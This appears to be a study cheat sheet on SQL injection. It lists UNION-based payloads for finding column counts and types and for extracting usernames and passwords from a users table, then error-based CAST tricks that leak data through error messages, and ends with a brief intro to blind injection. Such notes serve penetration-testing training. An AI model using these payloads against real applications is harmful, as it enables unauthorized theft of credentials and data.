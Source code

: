 #### Append a blank table to the end of the list with NULL values
```sql
' UNION SELECT NULL,NULL,NULL--
```

#### Finding columns that have a useful data type
```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

#### Retrieving information from another table
- For this you must make sure that you follow the appropriate number of columns needed for the UNION to work
- This also requires you to know the column names and table name for the data you wish to access
```sql
' UNION SELECT username, password FROM users--
```

#### Retrieving multiple values within a single column
- If you wish to return data that is more columns that the original query you can concatinate the data from the extracted table into a single column
- This could also be required if you only have limited columns that support the data type you require
```sql
' UNION SELECT username || '-' || password FROM users--
' UNION SELECT NULL,username || '-' || password FROM users--
```

## Error Based Extraction
- If an application simply just returns an error to the user, data could possibly be extracted. A simple workflow could go as follows:
### Oracle Based:
1. Try a simple error (this proves we can run SQL but fails because it wants a bool)
```SQL
' AND CAST((SELECT 1) AS int)--
```

2. Make it a bool condition (the error will no go away)
```SQL
' AND 1=CAST((SELECT 1) AS int)-- 
```

3. Extract information (this will fail as it tries to convert string to int, logging the string in the error)
```SQL
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

## Blind SQL Injection Vulnerabilities
A blind SQL injection is where the application doesn't return the results of the query or the details of any database errors within its response. These vulnerabilities can still be exploited to access unauthorized data, however, techniques are generally more complicated and difficult to perform.
